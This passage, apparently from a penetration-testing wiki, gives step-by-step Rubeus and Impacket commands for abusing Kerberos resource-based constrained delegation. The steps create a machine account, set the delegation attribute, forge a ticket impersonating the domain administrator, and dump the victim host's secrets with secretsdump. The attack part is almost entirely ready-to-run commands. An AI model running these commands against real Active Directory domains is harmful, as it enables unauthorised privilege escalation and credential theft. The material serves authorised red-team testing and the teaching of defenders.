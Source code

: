 ```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

You can generate more tickets for more services just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

> [!CAUTION]
> Note that users have an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him. This property can be seen inside bloodhound.

### Linux tooling: end-to-end RBCD with Impacket (2024+)

If you operate from Linux, you can perform the full RBCD chain using the official Impacket tools:

```bash
# 1) Create attacker-controlled machine account (respects MachineAccountQuota)
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'P@ss123' -dc-ip 192.168.56.10 'domain.local/jdoe:Summer2025!'

# 2) Grant RBCD on the target computer to FAKE01$
#    -action write appends/sets the security descriptor for msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd -delegate-to 'VICTIM$' -delegate-from 'FAKE01$' -dc-ip 192.168.56.10 -action write 'domain.local/jdoe:Summer2025!'

# 3) Request an impersonation ticket (S4U2Self+S4U2Proxy) for a privileged user against the victim service
impacket-getST -spn cifs/victim.domain.local -impersonate Administrator -dc-ip 192.168.56.10 'domain.local/FAKE01$:P@ss123'

# 4) Use the ticket (ccache) against the target service
export KRB5CCNAME=$(pwd)/Administrator.ccache
# Example: dump local secrets via Kerberos (no NTLM)
impacket-secretsdump -k -no-pass Administrator@victim.domain.local
```

Notes
- If LDAP signing/LDAPS is enforced, use `impacket-rbcd -use-ldaps ...`.
- Prefer AES keys; many modern domains restrict RC4. Impacket and Rubeus both support AES-only flows.
- Impacket can rewrite the `sname` ("AnySPN") for some tools, but obtain the correct SPN whenever possible (e.g., CIFS/LDAP/HTTP/HOST/MSSQLSvc).

